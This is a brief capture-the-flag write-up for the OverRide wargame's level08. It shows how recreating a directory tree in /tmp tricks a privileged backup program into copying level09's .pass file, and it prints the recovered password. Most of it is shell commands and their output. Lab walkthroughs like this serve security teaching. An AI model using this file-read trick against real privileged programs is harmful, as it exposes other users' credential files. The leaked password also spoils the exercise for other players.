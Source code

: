 This one is very simple, the program takes a file and creates a backup in the backup folder. So what we want to do is create a backup of /home/users/level09/.pass but in order to do it, the folder ./backups/home/users/level09 needs to exist so it can write the backup file in it. The only place where we can create folders is /tmp so we do it in /tmp like so :

```bash
level08@OverRide:/tmp$ mkdir backups//home
level08@OverRide:/tmp$ mkdir backups//home/users
level08@OverRide:/tmp$ mkdir backups//home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log  
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
